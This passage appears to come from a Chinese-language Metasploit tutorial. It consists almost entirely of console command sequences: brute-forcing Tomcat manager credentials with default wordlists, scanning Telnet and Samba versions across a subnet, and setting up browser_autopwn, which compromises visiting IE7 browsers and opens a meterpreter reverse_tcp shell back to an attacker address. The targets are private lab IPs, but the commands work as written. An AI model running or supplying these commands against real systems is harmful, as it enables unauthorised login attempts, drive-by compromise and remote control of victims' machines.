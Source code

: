 想更多结果或使用过滤关键字，得交钱。

### Tomcat服务

```
search tomcat
use auxiliary/scanner/http/tomcat_mgr_login
show options
# set PASS_FILE 设置密码文件 默认自带tomcat_mgr_default_pass.txt
# set USER_FILE 设置用户名文件 默认自带tomcat_mgr_default_users.txt
set RHOSTS 192.168.41.142
set RPORT 8180
exploit
```

### Telnet

```
use auxiliary/scanner/telnet/telnet_version
show options
set RHOST 192.168.6.105
exploit
```

### Samba服务

```
use auxiliary/scanner/smb/smb_version
show options
set RHOSTS 192.168.6.105
exploit
```

扫描网络内开启Samba服务器的所有主机：

```
use auxiliary/scanner/smb/smb_version
show options
set RHOSTS 192.168.6.0/24
set THREADS 255
exploit
```

### 攻击浏览器

用户访问一个Web页面时自动入侵，只支持IE7

```
search autopwn
use auxiliary/server/browser_autopwn
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.41.234
set URIPATH "filetypes"
exploit
```
